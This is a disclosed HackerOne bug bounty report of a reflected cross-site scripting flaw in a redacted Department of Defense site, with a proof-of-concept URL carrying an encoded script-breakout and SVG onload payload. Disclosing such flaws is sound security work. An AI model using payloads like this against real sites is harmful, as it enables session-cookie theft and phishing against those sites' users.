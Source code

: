 # Reflected XSS in https://www.██████/

## Report Details
- **Report ID**: 924650
- **URL**: https://hackerone.com/reports/924650
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-07-15T16:43:59.627Z
- **Disclosed**: 2020-09-29T20:34:27.623Z

## Reporter
- **Username**: nirajgautamit
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello Security Team,
I would like to report the XSS vulnerability on your system.
The `i=` parameter is not escaped properly for URL encoded values.

Steps To Reproduce:
Visit the following POC link:
https://www.████/ViewContent.aspx?con_id_pk=2726&fr=s&i=l9716%27();}]9836&001%3C%2FScript%2F%3E%3CSvg%2FOnLoad%3D(confirm)(1)%3E=1

1. Tested on firefox browser: █████████ 

2.Tested on google chrome browser: ██████████
Thanks
Niraj

## Impact

An XSS attack allows an attacker to execute arbitrary JavaScript in the context of the attacked website and the attacked user. This can be abused to steal session cookies, perform requests in the name of the victim, or for phishing attacks.

## Attachments
No attachments
